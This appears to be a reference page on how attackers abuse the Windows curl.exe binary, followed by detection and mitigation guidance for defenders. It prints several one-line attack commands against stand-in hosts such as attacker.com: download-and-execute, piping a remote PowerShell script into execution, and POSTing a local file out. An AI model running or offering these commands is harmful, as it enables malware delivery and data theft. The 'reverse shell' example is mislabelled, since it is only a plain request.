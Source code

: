 # curl.exe
## What is it?
*```curl.exe``` is a **built-in Windows command-line tool** used for **transferring data over various protocols** (HTTP, HTTPS, FTP, SMB, etc.).*  
*It allows users to **download and upload files, interact with APIs, and automate network requests** directly from the command line.*  

*Because it is a **trusted Microsoft binary**, attackers often **abuse it for downloading malware, data exfiltration, and C2 communications**, bypassing security tools.*

## Legitimate Usage
- **Download & Upload Files** → Fetch remote content or send data to a server.
- **Interact with APIs** → Send HTTP requests for automation and scripting.
- **Test Network Connectivity** → Check response headers, resolve DNS, and debug requests.
- **Automate Web Requests** → Automate interactions with web services.

## How to abuse it
- **Download Malware & Payloads** → Fetch malicious files from external servers.
- **Exfiltrate Data** → Send stolen data to an attacker's server.
- **C2 Communication** → Act as a simple backdoor for executing commands.
- **Bypass Security Controls** → Uses a **trusted binary** (LOLBas) to evade detection.
- **Proxy & Tunneling** → Relay traffic to bypass network restrictions.

## Example Attacks
### 1. Download & Execute Malware
*Attackers use ```curl.exe``` to retrieve malicious payloads and execute them.*

```
curl -o payload.exe http://malicious.com/payload.exe && payload.exe
```

**Effect:**
- Downloads ```payload.exe``` from ```http://malicious.com```.
- Executes the payload **without triggering security alerts**.

### 2. Download & Execute PowerShell Payload
*Fetches a PowerShell script from an attacker’s server and executes it in memory.*

```
curl -s http://attacker.com/script.ps1 | powershell -nop -exec bypass
```

**Effect:**
- Runs a **fileless attack**, making it harder to detect.
- Avoids writing scripts to disk, reducing forensic evidence.

### 3. Data Exfiltration via HTTP
*Attackers send stolen data to an attacker-controlled server.*

```
curl -X POST -d @C:\SensitiveData.txt http://attacker.com/upload
```

**Effect:**
- Uploads ```SensitiveData.txt``` to an external server.
- **Bypasses network monitoring tools** using trusted traffic.

### 4. Reverse Shell over HTTP
*Establishes a connection to an attacker’s C2 server to execute commands remotely.*

```
curl http://attacker.com/cmd?cmd=whoami
```

**Effect:**
- Executes **remote commands** on the infected system.
- Mimics **legitimate web traffic**, making detection difficult.

### 5. Bypassing Security Policies (Downloading to Trusted Directories)
*Some security policies block execution from user directories but allow downloads to trusted locations.*

```
curl -o C:\Windows\System32\trusted.exe http://malicious.com/malware.exe
```

**Effect:**
- Places **malware in a whitelisted directory**, bypassing restrictions.

### 6. Proxy & Tunneling for Evasion
*Attackers use curl.exe to bypass network restrictions by routing traffic through proxies.*

```
curl -x http://proxyserver:8080 -o malware.exe http://malicious.com/payload.exe
```

**Effect:**
- Hides the attack **behind a proxy**, making attribution harder.
- Allows malware **to bypass firewalls and network filters**.

## Detection & Mitigation
### Detection Methods
**Monitor Outbound Requests**
- **Event ID 4688 (Process Creation)** → Look for suspicious ```curl.exe``` executions.
- **Monitor connections to untrusted domains/IPs.**

**Check for File Downloads**
- **Event ID 4104 (PowerShell Script Execution)** → Detect command-line execution of remote scripts.
- **Look for file writes in suspicious locations (e.g., Temp, AppData).**

**Detect Data Exfiltration**
- **Unusual outbound HTTP POST requests** to unknown domains.
- **Check for repeated requests sending large amounts of data.**

### Mitigation Strategies
- **Restrict Internet Access for curl.exe** → Block outbound traffic if not required.
- **Use Application Control (AppLocker, WDAC)** → Prevent execution in untrusted locations.
- **Monitor HTTP Requests** → Inspect requests for anomalies.
- **Limit Access to System Directories** → Prevent dropping executables in trusted folders.
